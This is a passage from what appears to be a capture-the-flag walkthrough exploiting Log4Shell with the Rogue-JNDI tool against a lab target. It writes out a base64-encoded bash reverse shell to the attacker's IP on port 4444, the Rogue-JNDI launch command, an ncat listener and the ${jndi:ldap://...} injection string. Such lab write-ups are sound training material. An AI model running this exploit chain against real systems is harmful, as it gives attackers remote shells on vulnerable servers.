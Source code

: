 *This will create a ```.jar``` file in ```rogue-jndi/target/``` directory called ```RogueJndi-1.1.jar```. Now we can construct our payload to pass into the ```RogueJndi-1-1.jar``` Java application. To use the Rogue-JNDI server we will have to construct and pass it a payload, which will be responsible for giving us a shell on the affected system. We will be Base64 encoding the payload to prevent any encoding issues.*

```
echo -n 'bash -c "bash -i >& /dev/tcp/10.10.14.244/4444 0>&1"' | base64
```

*In this case we will be using port 4444 to receive the shell.*

Note: The ```-n``` flag with ```echo``` prevents a newline character from being added at the end, which sometimes causes issues. Also, added quotes around the Bash command for better parsing.

*After the payload has been created, start the Rogue-JNDI application while passing in the payload as part of the ```--command``` option and your ```tun0``` IP address to the ```--hostname``` option. For example:*

```
java -jar target/RogueJndi-1.1.jar --command 'bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDQvNDQ0NCAwPiYxIg==}|{base64,-d}|{bash,-i}' --hostname 10.10.14.244
```

Note: Use single quotes ```'``` instead of double quotes ```"``` for the ```--command``` argument to prevent shell interpretation of special characters. Ensure there's no unnecessary space between elements like ```|```.

Here is the output from my Kali machine:

```
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.14.244:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.14.244:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.244:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.14.244:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.244:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://10.10.14.244:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.244:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.14.244:1389/o=tomcat to artsploit.controllers.Tomcat
```

*Now that the server is listening locally on port 389, let's open another terminal and start a Netcat listener to capture the reverse shell.*

```
ncat -lvp 4444
```

*Going back to our intercepted POST request, let's change the payload to:*

```
${jndi:ldap://10.10.14.244:1389/o=tomcat}
````
